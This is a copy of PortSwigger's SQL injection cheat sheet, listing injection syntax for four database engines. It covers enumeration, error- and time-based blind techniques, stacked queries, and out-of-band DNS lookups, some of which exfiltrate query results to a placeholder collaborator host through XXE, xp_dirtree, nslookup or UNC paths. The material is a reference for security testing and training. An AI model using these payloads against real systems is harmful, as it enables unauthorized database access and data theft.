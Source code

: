 
**[PORTSWIGGER SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)**

This SQL injection cheat sheet contains examples of useful syntax that you can use to perform a variety of tasks that often arise when performing SQL injection attacks.

String concatenation
--------------------

You can concatenate together multiple strings to make a single string.

 Oracle  `'foo'||'bar'` 
 
 Microsoft  `'foo'+'bar'` 
 
 PostgreSQL  `'foo'||'bar'` 
 
 MySQL `'foo' 'bar'` \
`CONCAT('foo','bar')` 

Substring
---------

You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string `ba`.

Oracle  `SUBSTR('foobar', 4, 2)` 

Microsoft  `SUBSTRING('foobar', 4, 2)` 

PostgreSQL  `SUBSTRING('foobar', 4, 2)` 

MySQL  `SUBSTRING('foobar', 4, 2)` 

Comments
--------

You can use comments to truncate a query and remove the portion of the original query that follows your input.

Oracle  `--comment\`

Microsoft  `--comment\
/*comment*/` 

PostgreSQL  `--comment\
/*comment*/` 

MySQL  `#comment`\
`-- comment` \
`/*comment*/` 

Database version
----------------

You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

Oracle  `SELECT banner FROM v$version\
SELECT version FROM v$instance\` 

Microsoft  `SELECT @@version` 

PostgreSQL  `SELECT version()` 

MySQL  `SELECT @@version` 

Database contents
-----------------

You can list the tables that exist in the database, and the columns that those tables contain.

Oracle  `SELECT * FROM all_tables \
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'` 

Microsoft  `SELECT * FROM information_schema.tables \
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'\`

PostgreSQL  `SELECT * FROM information_schema.tables \
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'\`

MySQL  `SELECT * FROM information_schema.tables \
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` 

Conditional errors
------------------

You can test a single boolean condition and trigger a database error if the condition is true.

Oracle  `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual` 
 
Microsoft  `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END` 
 
PostgreSQL  `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END` 

MySQL  `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')` 

Batched (or stacked) queries
----------------------------

You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

Oracle  `Does not support batched queries.` 

Microsoft  `QUERY-1-HERE; QUERY-2-HERE` 

PostgreSQL  `QUERY-1-HERE; QUERY-2-HERE` 

MySQL  `QUERY-1-HERE; QUERY-2-HERE` 

#### Note

With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

Time delays
-----------

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

Oracle  `dbms_pipe.receive_message(('a'),10)` 

Microsoft  `WAITFOR DELAY '0:0:10'` 

PostgreSQL  `SELECT pg_sleep(10)` 

MySQL  `SELECT sleep(10)` 

Conditional time delays
-----------------------

You can test a single boolean condition and trigger a time delay if the condition is true.

Oracle  `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual` 

Microsoft  `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'` 

PostgreSQL  `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END` 

MySQL  `SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')` 

DNS lookup
----------

You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

Oracle  The following technique leverages an XML external entity ([XXE](https://portswigger.net/web-security/xxe)) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:\
`SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`

The following technique works on fully patched Oracle installations, but requires elevated privileges:\
`SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')` |

Microsoft  `exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'` 

PostgreSQL  `copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'` 

MySQL  The following techniques work on Windows only:\
`LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')`\
`SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'` 

DNS lookup with data exfiltration
---------------------------------

You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

Oracle  `SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual` 

Microsoft  `declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')` 

PostgreSQL  `create OR replace function f() returns void as $$\
declare c text;\
declare p text;\
begin\
SELECT into p (SELECT YOUR-QUERY-HERE);\
c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';\
execute c;\
END;\
$$ language plpgsql security definer;\
SELECT f();` 

MySQL  The following technique works on Windows only:\
`SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'` 


